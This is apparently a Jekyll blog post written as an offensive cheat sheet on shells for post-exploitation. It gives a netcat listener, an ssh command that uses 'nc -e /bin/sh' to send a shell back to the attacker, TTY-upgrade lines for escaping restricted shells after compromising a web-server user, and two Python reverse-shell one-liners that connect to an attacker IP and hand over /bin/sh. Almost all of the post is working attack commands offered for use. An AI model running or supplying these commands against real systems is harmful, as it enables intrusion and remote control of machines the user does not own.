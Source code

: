 ```yaml
---
layout: post
section-type: post
title: Shells (Guide to all types of shells that you might need)
category: shells
tags: [ 'shells', 'buffer_overflows', 'backdoors' ]
---
```

# Shells (Guide to all types of shells that you might need)

## Netcat Shell Listener

{% highlight shell-session %}
  nc -nlvp 4444
{% endhighlight %}

## Spawning a TTY Shell - Break out of Jail or limited shell

You should almost always upgrade your shell after taking control of an apache or www user.

(For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

(hint: sudo -l to see what you can run)

- You may encounter limited shells that use rshell-session and only allow you to execute a single command per session.
    You can overcome this by executing an SSH shell to your localhost:

  {% highlight shell-session %}
    ssh user@$ip nc $localip 4444 -e /bin/sh
    enter user's password
    python -c 'import pty; pty.spawn("/bin/sh")'
    export TERM=linux
  {% endhighlight %}

  {% highlight shell-session %}
    python -c 'import pty; pty.spawn("/bin/sh")'
  {% endhighlight %}

  {% highlight shell-session %}
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
  {% endhighlight %}

  {% highlight shell-session %}
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  {% endhighlight %}
